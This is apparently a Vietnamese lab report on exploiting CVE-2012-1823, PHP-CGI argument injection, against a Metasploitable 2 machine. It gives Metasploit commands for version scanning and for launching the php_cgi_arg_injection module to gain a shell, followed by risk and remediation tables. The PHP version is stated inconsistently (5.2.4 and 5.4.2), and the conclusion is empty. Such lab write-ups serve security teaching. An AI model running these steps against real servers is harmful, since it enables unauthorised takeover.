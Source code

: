 # 🛡️Remote Code Execution thông qua PHP-CGI Argument Injection
> - **Tên lỗ hỏng:** PHP CGI Argument Injection
> - **Mã CVE:** CVE-2012-1823
> - **Mức độ:** Cao
> - **Ngày phát hiện:** 20122012
## 🧱 1. Mô tả lỗ hổng
Hệ thống web hiện đang chạy PHP 5.2.4 với mô hình xử lý CGI. Đây là một phiên bản đã quá cũ (phát hành năm 2007) và chứa lỗ hổng argument injection, cho phép kẻ tấn công chèn các tham số tùy ý (-d allow_url_include=on, -d auto_prepend_file=php://input, v.v...) dẫn đến thực thi mã từ xa (RCE).
## Kỹ thuật khai thác:
- Gửi một HTTP request có ? chứa argument bất hợp lệ vào php-cgi
- Truyền mã PHP độc hại thông qua POST
- Kết quả: shell được thực thi từ xa
## ⚒️ 2. Thử nghiệm thực tế
- QUYÉT MÁY CHỦ để tìm thông tin về phiên bản web server:
```
sudo msfconsole
use auxiliary/scanner/http/http_version
set rhost <IP Metasploitable 2>
exploit
```
<img width="704" height="259" alt="image" src="https://github.com/user-attachments/assets/d9664fec-59cf-4cb9-8c63-3083583190b1" />

- Sau khi xác minh được phiên bản PHP trên web server là 5.4.2. Tìm kiếm các lỗ hổng bảo mật có liên quan:
```
searchsploit apache | grep 5.4.2
```

- Sử dụng module php_cgi_arg_injection của Metataploit để chiếm shell trên Metasploitable
```
sudo msfconsole
$use multi/http/php_cgi_arg_injection
$set rhost <IP Metasploitable 2>
$exploit
```

- XEM SETTING
```
show options
```
## 📉 3. Rủi ro an ninh

| Mức độ                 | Mô tả                                            |
| ---------------------- | ------------------------------------------------ |
| **Tác động**           | Toàn bộ hệ thống có thể bị chiếm quyền kiểm soát |
| **Khả năng khai thác** | Rất cao – công cụ công khai, không cần xác thực  |
| **Hậu quả tiềm ẩn**    | Rò rỉ dữ liệu, chèn web shell, pivot mạng nội bộ |

## 🧠 Vì sao lại thuộc nhóm "Vulnerable and Outdated Components"?

| Tiêu chí                                 | Có khớp không?                        |
| ---------------------------------------- | ------------------------------------- |
| ❌ Phần mềm không được cập nhật           | ✅ PHP 5.2.4 quá cũ (2007)             |
| ⚠️ Lỗ hổng đã công bố và có mã khai thác | ✅ CVE-2012-1823                       |
| 🔥 Hacker có thể khai thác từ xa         | ✅ Tấn công RCE thành công             |
| 🔐 Không có kiểm soát an ninh bù         | ✅ Không dùng WAF hoặc cấu hình bảo vệ |

## 🛡️ 4. Đề xuất khắc phục

| Hành động               | Chi tiết                                                      |
| ----------------------- | ------------------------------------------------------------- |
| 🔄 **Cập nhật PHP**     | Nâng cấp PHP lên ít nhất phiên bản **7.4 trở lên**            |
| 🔐 **Tắt PHP-CGI**      | Nếu không bắt buộc dùng CGI, tắt hoàn toàn module             |
| 🚧 **Cấu hình WAF/IDS** | Triển khai WAF (ModSecurity, v.v...) để lọc tham số nguy hiểm |
| 🧹 **Quản lý bản vá**   | Thiết lập lịch cập nhật phần mềm định kỳ                      |
## Tham Khảo
- https://github.com/0xl0k1/CVE-2012-1823
## ✅ Kết Luận
